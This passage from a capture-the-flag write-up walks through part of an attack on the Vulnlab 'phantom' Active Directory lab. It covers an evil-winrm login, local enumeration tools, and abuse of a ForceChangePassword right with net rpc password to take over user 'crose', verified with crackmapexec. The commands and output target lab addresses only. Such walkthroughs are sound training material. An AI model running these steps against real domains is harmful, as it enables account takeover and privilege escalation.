 This means we should be able to authenticate to WinRM using `evil-winrm` and read the first flag.

```
└─$ evil-winrm --ip 10.10.103.169 -u 'svc_sspr' -p '[...snip...]'
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_sspr\Documents> cat ..\Desktop\user.txt
VL[...snip...]
```

# Domain Escalation as svc_sspr

Now that we successfully have access to the machine - we could look around the filesystem to see if there are any pertinent files/applications that we could exploit. Below is a list of security checks that I performed to see if the filesystem possessed any important data.

* Cached DPAPI credentials/master keys with `Seatbelt`.
* Internal services using `netstat`.
* Abnormal running programs with `ps`.
* Credential Hunting on the filesystem.
* Regular privilege escalation tactics with tools such as `PrivescCheck` and `Winpeas`.

Though nothing seemed to come back with any successful results. I decided to turn my attention back to our Bloodhound graph to see if our user had any privileges over any other domain objects.

![](/images/vulnlab/phantom-vl/e.png)

It seems as though `svc_sspr` has `ForceChangePassword` set over three domain users. This attribute essentially allows us to change the password of the domain user to any string of our choosing. This will allow us to take full control over this domain user and exploit any privileges that they have,

We can easily do so through RPC.

```
└─$ net rpc password "crose" "Password123@" -U "phantom.vl"/"svc_sspr"%"(SVC_SSPR PASSWORD)" -S "dc.phantom.vl"
```

This should of theoretically changed the password for the user `crose`, and we can verify so in LDAP.

```
└─$ crackmapexec ldap 10.10.103.169 -u crose -p 'Password123@'                   
SMB         10.10.103.169   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.103.169   389    DC               [+] phantom.vl\crose:Password123@
```

Looks like it works, we now possess the password for this user. They don't seem to have the ability to authenticate to the filesystem, so our privilege escalation must still be through the domain.

![](/images/vulnlab/phantom-vl/f.png)

It seems that this user, `crose`, is within the `ICT Security` domain group. This means that by default, they have `AllowedToActOnBehalfOfOtherIdentity` privilege over the domain controller, `DC.PHANTOM.VL`.
